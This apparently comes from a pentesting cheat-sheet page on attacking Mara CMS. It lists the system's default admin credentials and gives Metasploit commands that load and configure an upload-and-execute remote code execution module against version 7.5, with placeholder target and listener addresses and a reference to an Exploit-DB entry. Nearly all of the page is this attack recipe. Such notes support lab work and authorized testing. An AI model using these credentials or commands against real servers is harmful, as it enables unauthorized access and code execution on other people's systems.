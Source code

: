 ```yaml
---
title: Mara CMS Pentesting
description: Mara CMS is a file based content management system.
tags:
    - CMS
    - Web
refs:
    - https://www.exploit-db.com/exploits/48780
date: 2023-03-07
draft: false
---
```


## Default Credentials

```bash
admin:changeme
```

<br />

## Remote Code Execution (RCE) v7.5

Reference: [https://www.exploit-db.com/exploits/48780](https://www.exploit-db.com/exploits/48780)

### Automation

```bash
msfconsole
msf> use exploit/multi/http/maracms_upload_exec
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> set srvhost <local-ip>
msf> set srvport <local-port>
msf> set targeturi /path/to/maracms/
msf> set targeturipath /path/to/maracms/
```
